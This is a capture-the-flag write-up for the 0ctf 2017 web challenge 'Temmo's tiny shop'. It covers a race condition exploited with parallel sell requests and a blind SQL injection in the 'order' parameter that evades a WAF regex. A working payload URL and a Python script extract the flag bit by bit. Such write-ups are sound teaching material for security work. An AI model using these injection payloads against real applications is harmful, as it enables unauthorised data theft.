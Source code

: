 # 0ctf 2017 - Temmo's tiny shop

!SpamAndHex - Hege

Temmo's tiny shop is a 3-paged web application. After registering one can purchase
and sell goods from a predefined list, using a total of 4000 credits. The app also
allows us to search our purchased items by name, and order them by any field.

![shop ss](ss-shop.png)

Notice the `!HINT!` item, costing more than our initial money. Also there is an
info page, where we get funny messages for our purchases.

![info ss](ss-info.png)

## Obtaining !HINT!

Buying and seling takes a considerably long time, so assume that there is a race
condition and try to exploit it. We made it simple: opened multiple sessions for
the same user and buyed and sold items randomly. Clearly there was a race
condition, so started pushing buttons systematically, trying to sell as much goods
in parallel as possible. We quickly got enough credits to buy !HINT!, no
automation was needed at all.

![hint ss](ss-hint.png)

_OK! Now I will give some hint: you can get flag by use `select flag from
ce63e444b0d049e9c899c9a0336b3c59`_

## Obtaining flag through SQLi

The search form uses
`http://202.120.7.197/app.php?action=search&keyword=&order=price`.
Messing around with the parameters revealed the following:

* There is a WAF
* `order` param is vulnerable to SQLi

WAF rejects queries matching `[^0-9a-zA-Z\(\)&]|()|union|user` (and a few more
keywords and possibly table names) with
`{"status":"fail","msg":"WAF seems don't like you."}`.

We managed to leak bits of the flag by manipulating the order of the results:

```
http://202.120.7.197/app.php?action=search&keyword=&order=if(price%26300,1,if((select(ascii(substr(flag,{index},1))%26{mask})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))
```

So we leaked the flag bit by bit, and there you go: `flag{r4ce_c0nditi0n_i5_excited}`.

Code for the lazy:

```
import requests
import json

# the used account needs to have a Schrodinger's cat, an ice cream and nothing else

def extract_string(char_mask_intersects):
  flag = ""
  try:
    for index in range(1, 1000):
      char = 0
      for bit in range(8):
        mask = 1 << bit
        if char_mask_intersects(index, mask):
          char += mask
      if not char:
        break
      char = chr(char)
      print("CHAR: " + char)
      flag += char
  except Exception as err:
    print(err)
  return flag

def bit_mask_in_flag(char_index, mask):
  url = (
    "http://202.120.7.197/app.php?action=search&keyword=&order=" +
    "if(price%26300,1,if((select(ascii(substr(flag,{},1))%26{})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))"
  ).format(char_index, mask)
  print("  requesting {},{}".format(char_index, mask))
  resp = requests.get(url, headers={
    "Cookie": "PHPSESSID=<populate this>"
  })
  resp = json.loads(resp.text)
  return resp["goods"][0]["price"] != "300"

print("FLAG: " + extract_string(bit_mask_in_flag))
```


